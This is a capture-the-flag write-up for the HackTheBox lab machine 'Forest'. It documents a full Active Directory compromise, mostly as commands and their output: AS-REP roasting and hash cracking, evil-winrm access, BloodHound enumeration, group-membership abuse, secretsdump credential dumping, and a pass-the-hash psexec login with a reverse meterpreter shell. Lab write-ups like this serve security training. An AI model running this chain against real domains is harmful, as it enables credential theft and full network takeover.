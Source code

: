 ===========================        Forest       ================================
===========================     hackthebox.eu   ================================

Started: 14/12/2019

The box is Forest, made by egre55 and mrb3n. It is a Windows box and it runs on
IP 10.10.10.161.

# === Network Analyzis ===
We give a name to the box in our hosts file
```
$ echo "10.10.10.161    forest.htb" >> /etc/hosts
``` 

We run a nmap scan:

```
$ nmap -sC -sV -oA nmap/initial forest.htb
```


Port 53 is a TCP socket running a DNS server (odd). We check DNS TXT record
version with dig:

```
$ dig @forest.htb version.bind chaos txt
```
Ports 88 is kerberos-sec. A security system for windows hosts.

## Scripted enumeration

Using `enum4linux` we enumerate the host automatically.
We found these users:
```
SM_2c8eef0a09b545acb # 9 other user like this one
HealthMailboxc3d7722 # 12 other user like this one
svc-alfresco
andy
krbtgt
lucinda
mark
santi
sebastien
Administrator
```

We found this:
```
 Server forest.htb allows sessions using username '', password ''
``` 

We need to find hashes for any password of these users.

Using impacket `GetNPUsers.py` :
```
root@kali:~/htb/forest# python GetNPUsers.py -dc-ip forest.htb -no-pass HTB/svc-alfresco
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for svc-alfresco
$krb5asrep$2[....]3$svc-alfresco@HTB:d7a32e5[....]
```

We crack this hash using hashcat:

```
$ hashcat -O -a 0 -r rules/best64.rule -m 18200 hash.txt rock-you.txt
...
Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 AS-REP etype 23
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB:d7a32e517710a3a76912...9581f2
Time.Started.....: Sat Dec 14 19:06:37 2019 (4 secs)
Time.Estimated...: Sat Dec 14 19:06:41 2019 (0 secs)
Guess.Base.......: File (rock-you.txt)
Guess.Mod........: Rules (rules/best64.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 90713.9 kH/s (4.37ms) @ Accel:64 Loops:19 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 313087930/1104517645 (28.35%)
Rejected.........: 71610/313087930 (0.02%)
Restore.Point....: 4055967/14344385 (28.28%)
Restore.Sub.#1...: Salt:0 Amplifier:0-19 Iteration:0-19
Candidates.#1....: sagitario_18_007 -> s-dubb12
Hardware.Mon.#1..: Temp: 51c Fan: 30% Util: 67% Core:1923MHz Mem:4006MHz Bus:16
```

We found the creds "svc-alfresco:s3rvice". We try these creds with evil-winrm.
We access a Powershell Instance.

In ̀ C:\Users\svc-alfresco\Desktop\user.txt` we find user's hash.

```
PS C:\Users\svc-alfresco> type Desktop\user.txt
e5e4e47ae7022664cda6eb013fb0d9ed
```

Using Bloodhound's PS1 collector we gather data about the target and feed it
to Bloodhound. We upload the PS1 file and import it

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Import-Module ./Sharphound.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Invoke-Bloodhound -CollectionMethod All -Domain htb.local -LDAPUser svc-alfresco -LDAPPass s3rvice
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> ls
    Directory: C:\Users\svc-alfresco\Documents
    Mode                LastWriteTime         Length Name
    -a----        2/10/2020  12:35 PM          13166 20200210123509_BloodHound.zip

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> download 20200210123509_BloodHound.zip
Info: Downloading C:\Users\svc-alfresco\Documents\20200210123509_BloodHound.zip to 20200210123509_BloodHound.zip

SInfo: Download successful!
```

This commands generates files that we review in the Bloodhound software.

```
$ ls bloodhound/
computers.json  domains.json  groups.json  sessions.json  users.json
```

Looking for a path to Domain Admins via Bloodhound, we find that
"Exchange Windows Permissions" may allow us PrivEsc to Administrator.
As svc-alfresco, we will create an AD User, add it to said group, then use
secretsdump to dump the administrator hash.

```
PS $> Import-Module ActiveDirectory
PS $> New-ADUser shad
PS $> Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members shad
PS $> Get-ADPrincipalGroupMembership shad
distinguishedName : CN=Domain Users,CN=Users,DC=htb,DC=local
GroupCategory     : Security
GroupScope        : Global
name              : Domain Users
objectClass       : group
objectGUID        : 7cd3af35-c652-400f-9fd9-345bf4b3fc7a
SamAccountName    : Domain Users
SID               : S-1-5-21-3072663084-364016917-1341370565-513

distinguishedName : CN=Remote Management Users,CN=Builtin,DC=htb,DC=local
GroupCategory     : Security
GroupScope        : DomainLocal
name              : Remote Management Users
objectClass       : group
objectGUID        : c193227f-7dac-48b8-90b9-161893eef8c5
SamAccountName    : Remote Management Users
SID               : S-1-5-32-580

distinguishedName : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
GroupCategory     : Security
GroupScope        : Universal
name              : Exchange Windows Permissions
objectClass       : group
objectGUID        : 64f0cc0d-8e1d-4506-98be-26c67dc5bed3
SamAccountName    : Exchange Windows Permissions
SID               : S-1-5-21-3072663084-364016917-1341370565-1121
```

We then use impacket's secretsdump.py:
```
python3 impacket/examples/secretsdump.py HTB.local/shad:shadislove@forest.htb
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```

We then use that in a Metasploit smb PSExec connection.
```
$ msfconsole
msf5> use exploit/windows/smb/psexec
msf5> set payload windows/x64/meterpreter/reverse_tcp
msf5> set RHOST forest.htb
msf5> set SMBUser Administrator
msf5> set SMBPass aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
msf5> exploit

meterpreter> cd ../../
meterpreter> pwd
C:\
meterpreter> cd C:/Users/Administrator/Desktop
meterpreter> cat root.txt
f048153f202bbb2f82622b04d79129cc
meterpreter>
```

We owned the box.
